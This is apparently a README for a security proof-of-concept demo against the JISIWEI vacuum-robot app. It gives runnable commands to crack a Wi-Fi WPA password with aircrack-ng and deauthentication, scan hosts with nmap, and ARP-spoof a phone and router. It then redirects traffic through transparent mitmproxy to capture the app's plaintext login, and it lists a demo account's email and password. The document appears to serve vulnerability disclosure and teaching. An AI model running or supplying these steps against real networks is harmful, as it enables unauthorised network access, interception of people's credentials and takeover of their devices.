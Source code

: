 # HOW TO DEMO

## Setup
A computer with these tools have to be fixed:
- **Android Emulator** or **Smartphone**, with the JISIWEI application installed. iOS app can be found here: https://apps.apple.com/us/app/极思维机器人/id937665306 and the APK file for the Android app is found in this repository.
- **aircrack-ng**, used for getting in to the network.
- **mitmproxy**, runned in transparent mode. Used for seeing the HTTP requests.
- **arpspoof**, for spoofing the network to get the packets.
- **nmap**, used for finding devices in the network.



## Step 1
Use Aircrack-ng with the wireless network adapter to crack the password to the router.

But first we have to set the wireless adapter to monitor mode, Either run the script **monitor_mode.sh** or do the following:
:
```
rfkill unblock all
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

We can then check what networks are available in the area:

```
airodump-ng wlan0
```

Take the BSSID and channel from the WIFI we will hack and do the following:
```
airodump-ng -c [channel for wifi] --bssid [BSSID for wifi] -w psk wlan0
```
We will now wait on a WPA handshake, we could make this process faster by taking a BSSID of a host that is connected to the wifi.
Easiest way to accomplish this is by having your smartphone connected to the wifi.

```
aireplay-ng -0 0 -a [BSSID of wifi] -c [BSSID of host] wlan0
```

When we have the handshake you can terminate the previous programs. 

Now use aircrack-ng with a password list and get the password.

```
aircrack-ng -w rockyou.txt -b [BSSID of wifi] psk*.cap
```

Now you can set the mode for the wireless adapter to Auto and then login to the wifi. Either run the script auto_mode.sh or do the following:

```
ifconfig wlan0 down
iwconfig wlan0 mode Auto
ifconfig wlan0 up
```

## Step 2
Login to the wifi.

Use Nmap to see the devices in the network.
```
nmap -sn 192.168.1.127/24
```
Check ports on all the devices found in the network. We will need the router and a phone.


## Step 3
Either run the script **spoof.sh** or do all the steps down below.

First we will setup port forwarding before using arpspoof and mitmproxy:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

Then open make sure to have three terminals opened and each command in separate terminals:

```
arpspoof -i wlan0 -t [PHONE_IP] [ROUTER_IP]
arpspoof -i wlan0 -t [ROUTER_IP] [PHONE_IP] 
```

Start mitmproxy in transparent mode in the third terminal and wait till someone logs in to the robot on the same network.

```
mitmproxy --mode transparent --showhost
```

Use the emulator or smartphone and log in to the JISIWEI application while on the same network.

```
/root/Android/Sdk/emulator/emulator -avd Attacker 
```

Use the credentials:

username: hackmanhacker9@gmail.com

password: proofofconcept

When you have logged in you can see the credentials in the HTTP request. Meaning that the attacker now has access to those credentials and is now able to login to the app and controll the vacuum cleaner robot.

## Step 4

Login to the application using the smartphone or emulator showing that it is the same credentials and use the functions of the application.
The attacker could then login whenever they pleases without being in the network.